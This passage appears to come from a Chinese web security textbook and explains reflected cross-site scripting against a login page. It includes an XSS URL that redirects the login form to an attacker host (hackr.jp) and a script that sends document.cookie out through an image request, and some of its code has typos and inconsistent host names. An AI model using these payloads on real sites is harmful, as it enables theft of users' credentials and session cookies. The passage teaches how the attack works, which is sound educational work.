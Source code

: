 重复熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的URL。
并隐藏植入事先准备好的欺诈邮件中或Web页面内，诱使用户去点击该URL。

```
http://example.jp/login?ID="><scirpt>var+f=document.getElementById("login"); +f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=">
```

浏览器打开该URI后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后，就会直接发送到攻击者的网站 （也就是hackr.jp），导致个人登录信息被窃取。

之后，ID及密码会传给该正规网站，而接下来仍然是按正常登录步骤，用户很难意识到自己的登陆信息已遭泄漏。

```
对 http://example.jp/login?ID=yama 请求时对应的HTML源代码

<div class="logo">
<img src="/img/logo.gif" alt="E! 拍卖会"/>
</div>

<form action="http://example.jp/login" method="post" id="login">
<div class="input_id">
ID <input type="text" name="ID" value="yama"/>
</div>



http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 请求时对应的HTML源代码

<div class="logo">
    <img src="/img/logo.gif" alt="E! 拍卖会/>
</div>
<form action="http://example.jp/login" method="post" id="login">
    <div class="input_id">
    ID <input type="text" name="ID" value="">
    <script>
    var f = document.getElementById("login");
    f.action = "http://hackr.jp/pwget;
    f.method = "get";
    </script>
    <span s="" />
    </div>
</form>
```

- 对用户Cookie的窃取攻击

除了在表单中设下圈套之处，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie信息。

```
<script src="http://hackr/jp/xss.js></script>
```

该脚本内指定的"http://hack.jp/xss.js"文件。即下面这段采用JavaScript编写的代码。

```
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```
